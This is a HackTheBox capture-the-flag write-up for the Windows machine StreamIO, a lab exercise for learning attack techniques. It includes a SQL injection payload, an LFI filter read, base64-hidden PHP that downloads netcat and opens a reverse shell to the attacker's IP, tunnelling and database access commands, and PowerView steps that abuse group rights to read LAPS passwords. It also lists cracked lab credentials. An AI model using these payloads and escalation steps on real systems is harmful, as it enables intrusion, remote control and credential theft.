 ```yaml
---
layout: default
title: "StreamIO"
parent: HackTheBox
---
```


# StreamIO: HackTheBox WriteUP

# Box Info

|-------|---------|
| Name | StreamIO |
| OS | Windows 🪟 |
| Rating | Medium |

# Enumeration 

### Nmap Scan
 
```text
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-27 15:34:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2022-06-27T15:35:46+00:00; +7h00m11s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

- Microsoft IIS 
- Sub-Domain : `watch.streamio.htb`
- Domain : `streamio.htb`
- DC : `DC.streamio.htb`

### Web Enumration

On **Port 80** there was nothing, just IIS welcome screen, however on **Port 443 (https://streamio.htb/)** there is a login page as well as register page but can't login with new user we registerd.

Moving on to **https://watch.streamio.htb/** , here we have is a list of all movies. On doing `Dir Busting` got an interesting page:
- `search.php`

We can search movies here, so after trying manul union `SQLi` we can enumrate the database, since `sqlmap` was not working as page had some blacklist.
<img src="../../resources/streamio/20220708165200.png">

On after enumrating Database got some usernames and password hashes.

```text
'+UNION+SELECT+1,password,3,4,5,6+FROM+dbo.users+--+-
```

Some of the hashes were available on [CrackStation](https://crackstation.net/)

Now since correct Username and Password is not sure , did a `clusterbomb` attack on **Login Page** on `https://streamio.htb/`
and found a correct pair:

```text
yoshihide : 66boysandgirls..
```

---

# Foothold

Now since we can Login and there is nothing much at front, found `admin` page by doing `Dir busting`.

On admin page there are different features for user and each we are accessing each feature as some **GET** paramter, so on fuzzing it found `debug` paramter.

This paramter was vulnerable to `LFI`. Reading `Index.php` :

```text
https://streamio.htb/admin/?debug=php://filter/read=convert.base64-encode/resource=index.php
```

We can inculde any file from the system with absolute path and found credentials for `db_admin` .

```text
db_admin : B1@hx31234567890
```

Therefore searching for some other files, found `mater.php` which have `eval()` function on `include` POST paramter.

So we can exploit it and get Reverse Shell by uploading it and executing it.

```shell-session
$ curl -X POST --data "include=data://text/plain;base64,c3lzdGVtKCJjZXJ0dXRpbC5leGUgLXVybGNhY2hlIC1mIGh0dHA6Ly8xMC4xMC4xNC4yNy9uYy5leGUgbmMuZXhlIik7" "https://streamio.htb/admin/?debug=master.php" --cookie "PHPSESSID=<SESSION_ID>" -k

$ curl -X POST --data "include=data://text/plain;base64,c3lzdGVtKCJuYy5leGUgMTAuMTAuMTQuMjcgOTAwMSAtZSBjbWQuZXhlIik7" "https://streamio.htb/admin/?debug=master.php" --cookie "PHPSESSID=<SESSION_ID>" -k
```

#### Enumrating Database

Since we got the Database Credentials and we can see it's runnning 
![2](../../resources/streamio/20220708171524.png)
we can access it by tunneling our traffic, I used `chisel` : 

```text
.\chisel.exe client <Att._IP>:5555 R:4000:10.10.11.158:1433/tcp
```

After accessing the database using `impacket-mssqlclient`

```text
impacket-mssqlclient streamio.htb/db_admin@127.0.0.1 -port 4000
```

There was a `backup` Database which had some usernames and password hashes. One of them is user on system as well.

```text
nikk37 : get_dem_girls2@yahoo.com
```

# Privilage  Escalation
We can login as `nikk37` using `Evil-winRM`,
Running `winPEAS` and found an Intersting file

![3](../../resources/streamio/20220708172334.png)

We can get some passwords from it.
Tool used : [FirePWD](https://github.com/lclevy/firepwd)

```text
admin JDg0dd1s@d0p3cr3@t0r
nikk37 n1kk1sd0p3t00
yoshihide paddpadd@12
JDgodd password@12
```

Password for `JDgodd` is `JDg0dd1s@d0p3cr3@t0r` it was just a guess `uwu` , after getting authencation failed in Last step.

### Using BloodHound
Using `bloodhound-python` to enumerate **AD** 

```shell
$ bloodhound-python -u nikk37 -p 'get_dem_girls2@yahoo.com' -ns 10.10.11.158 -d streamio.htb -c All
```

> I used `SharpHound` as well but it was not collecting any Information about user, Don't know why but somehow `bloodhound-python` was

![4](../../resources/streamio/20220708173434.png)

`JDgodd` user have `write` permissions on `CORE STAFF` group

And again `CORE STAFF` group members have `ReadLAPSPassword` rights.

![5](../../resources/streamio/20220708173656.png)

**Path to Follow : **

`JDgodd` have `write` rights on `CORE STAFF` we can add `JDgodd` itself into `CORE STAFF` group.
Since we cannot create any other user as any of our owned user is not a member of `Account Operator` group which is a special group in **AD** even though bloodhoud shows that `nikk37` is a member of this group but it is not.

```powershell
Import-Module .\PowerView.ps1

$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Rights All 

Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'streamio\JDgodd' -Credential $Cred

Get-DomainGroupMember -Identity 'CORE STAFF'
```

And now we can read `LAPS` Password : 
![6](../../resources/streamio/20220708174448.png)

---

**Reference :** [TheHacker.Recipes ReadLAPSPassword](https://www.thehacker.recipes/ad/movement/dacl/readlapspassword)


